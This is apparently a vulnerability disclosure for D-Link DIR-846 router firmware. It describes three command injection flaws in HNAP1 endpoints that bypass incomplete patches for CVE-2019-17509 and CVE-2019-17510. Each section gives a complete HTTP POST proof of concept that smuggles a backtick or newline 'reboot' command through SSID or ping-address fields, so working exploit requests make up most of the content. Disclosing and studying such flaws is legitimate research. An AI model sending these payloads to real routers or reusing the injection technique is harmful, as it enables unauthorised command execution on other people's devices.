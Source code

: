 # DIR-846_Command_Injection

#### Impact equipment

D-LINK DIR-846 (Rev A) ALL

#### Firmware

DIR846A1_FW100A43 link http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-846

DIR846enFW100A53DLA-Retail.bin link https://la.dlink.com/la/ftp_download.php?arch=DIR-846/DIR846enFW100A53DLA-Retail.bin

## Vulnerability1

#### Describe

​	The latest version of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin  has a command injection vulnerability in HNAP1/control/SetMasterWLanSettings.php. Attackers can use this vulnerability to use "\n" or backticks to bypass the shell metacharacters in the ssid0 or ssid1 parameters to execute arbitrary commands.

#### Detail

​	This vulnerability is due to the fact that **CVE-2019-17509** is not fully patched and can be bypassed by using line breaks or backticks on its basis.

<img src="./img/image-20211226102113922.png" alt="image-20211226102113922" style="zoom:50%;" />

#### POC

 ```
 POST /HNAP1/ HTTP/1.1
 Host: 192.168.0.1
 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
 Accept: application/json
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: application/json
 SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
 HNAP_AUTH: AB26D09C30FC07AF9FA05EF59B3B2558 1640421298429
 Content-Length: 284
 Origin: http://192.168.0.1
 Connection: close
 Referer: http://192.168.0.1/Diagnosis.html?t=1640421281425
 Cookie: uid=fN5PwZCT; PrivateKey=B2488589E39C47E4F8349060E88008DE; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=2
 
 {"SetMasterWLanSettings":{"wl(0).(0)_enable":"1","wl(0).(0)_ssid":"`reboot`","wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=","wl(0).(0)_crypto":"aestkip","wl(1).(0)_enable":"1","wl(1).(0)_ssid":"\nreboot\n","wl(1).(0)_preshared_key":"aXJrZXJPZ2c=","wl(1).(0)_crypto":"none"}}
 ```

#### TEXT

​	The following data packets will cause the router to restart	<img src="./img/image-20211226102955168.png" alt="image-20211226102955168" style="zoom:50%;" />

## Vulnerability2
#### Describe

​	HNAP1/control/SetWizardConfig.php in the latest version of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin  represents an injection vulnerability. Attackers can use this vulnerability to use "\n" or backticks in the shell metacharacters in the ssid0 or ssid1 parameters to cause arbitrary command execution.

#### Detail

​	Since cve-2019-17510 vulnerability has not been patched and improved / squashfs root / www / hnap1 / control / setwizardconfig. In PHP, you can also use line breaks and backquotes to bypass

<img src="./img/image-20211226104615847.png" alt="image-20211226104615847" style="zoom:50%;" />

#### POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: AB26D09C30FC07AF9FA05EF59B3B2558 1640421298429
Content-Length: 76
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Diagnosis.html?t=1640421281425
Cookie: uid=fN5PwZCT; PrivateKey=B2488589E39C47E4F8349060E88008DE; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=2

{"SetWizardConfig":{"wl(1).(0)_ssid":"`reboot`","wl(0).(0)_ssid":"aa\nreboot\n"}}
```

#### TEXT

<img src="./img/image-20211226105603738.png" alt="image-20211226105603738" style="zoom:50%;" />

## Vulnerability3

#### Describe

There is command injection in HNAP1/control/SetNetworkTomographySettings.php of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin, and backticks can be used for command injection when judging whether it is a reasonable domain name.

#### Detail

The following domain names can be constructed for command injection

```
www.baidu.com/'`reboot`'
```

<img src="./img/image-20211222113830764.png" alt="image-20211222113830764" style="zoom:50%;" />

#### POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: B573700726C0DE33335368EFA98967D4 1640426452615
Content-Length: 199
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Diagnosis.html?t=1640426411756
Cookie: uid=yo1BBSdJ; PrivateKey=F307B0A38DD86259C01188B535369C5A; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=4

{"SetNetworkTomographySettings":{"tomography_ping_address":"www.baidu.com/'`reboot`'","tomography_ping_number":"22","tomography_ping_size":"40","tomography_ping_timeout":"","tomography_ping_ttl":""}}
```

#### TEXT

​	The router sending the packet will restart

<img src="./img/image-20211226103503414.png" alt="image-20211226103503414" style="zoom:50%;" />
